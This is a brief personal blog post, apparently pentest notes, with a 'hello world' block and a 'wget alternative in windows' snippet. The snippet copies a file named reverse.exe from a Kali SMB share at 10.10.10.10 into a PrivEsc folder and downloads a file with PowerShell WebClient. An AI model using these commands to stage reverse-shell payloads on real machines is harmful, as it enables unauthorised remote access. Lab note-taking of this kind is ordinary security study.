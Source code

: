 # This is a first blog post

```
hello world


```


####  wget alternative in windows
```
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```
